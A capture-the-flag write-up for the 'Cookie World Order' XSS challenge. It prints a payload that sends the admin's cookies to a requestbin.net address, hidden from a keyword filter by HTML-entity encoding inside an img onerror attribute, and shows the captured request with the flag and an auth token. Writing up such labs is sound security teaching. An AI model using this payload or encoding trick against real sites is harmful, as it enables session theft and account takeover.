 # Cookie World Order

## Description

Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very
clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon.
Funny they trust their security to a contractor outside their systems, especially one with such bad habits. Upon further
snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo.
Go forth and attain greater access to reach this creature!

[https://cwo-xss.web.ctfcompetition.com/](https://cwo-xss.web.ctfcompetition.com/)

## Solution

From the URL we can already guess that this challenge is about XSS. It turns out that the chat on the right side of the
website is vulnerable to XSS.

However, the script from the [last challenge](../government_agriculture_network/README.md) does not work here because
there is some rudimentary protection. The keywords `script` and `alert` seem to be banned. To circumvent this protection HTML
encoding can be used. Encoding

```js
document.location='http://requestbin.net/r/YOUR_BIN?c='+document.cookie;
```

as part of the `onerror` attribute of an image:

```js
<img src=x onerror="&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&apos;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#114;&#101;&#113;&#117;&#101;&#115;&#116;&#98;&#105;&#110;&#46;&#110;&#101;&#116;&#47;&#114;&#47;&#89;&#79;&#85;&#82;&#95;&#66;&#73;&#78;&#63;&#99;&#61;&apos;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#59;">
```

Sending this in the chat forces the admin to perform a request:

```
GET /r/YOUR_BIN?c=flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz 
```

Therefore the flag is `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`.
